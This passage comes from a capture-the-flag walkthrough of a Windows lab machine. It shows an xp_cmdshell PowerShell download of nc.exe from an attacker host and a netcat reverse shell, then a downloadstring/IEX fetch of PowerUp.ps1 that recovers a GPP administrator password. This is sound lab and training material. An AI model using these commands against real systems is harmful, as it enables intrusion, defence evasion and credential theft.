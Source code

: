 At first I tried running a Nishang reverse shell but Windows Defender caught it. Then I tried downloading netcat with certutil.exe but that also was caught. So I used powershell instead to download netcat and then spawn a shell:

```
SQL> xp_cmdshell "powershell -command Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -OutFile c:\programdata\nc.exe"
```

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.125] 49713
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
querier\mssql-svc

C:\Windows\system32>type c:\users\mssql-svc\desktop\user.txt
type c:\users\mssql-svc\desktop\user.txt
c37b41b...
```

### Privesc

I used Powersploit's PowerUp module to do some recon on the box and found the administrator credentials stored in the Group Policy Preference (GPP) xml file. As explained on many other blogs, that file is AES encrypted but the key was leaked on MSDN a couple of years ago so PowerUp is able to decrypt it automatically.

```
C:\Windows\system32>powershell

PS C:\Windows\system32> IEX (New-Object Net.Webclient).downloadstring("http://10.10.14.23/PowerUp.ps1")
PS C:\Windows\system32> invoke-allchecks
[*] Checking for cached Group Policy Preferences .xml files....


Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
            C:\Windows\system32>powershell
```

Password: `MyUnclesAreMarioAndLuigi!!1!`

Using Alamot's WinRM ruby script, I was able to log in as `administrator`:
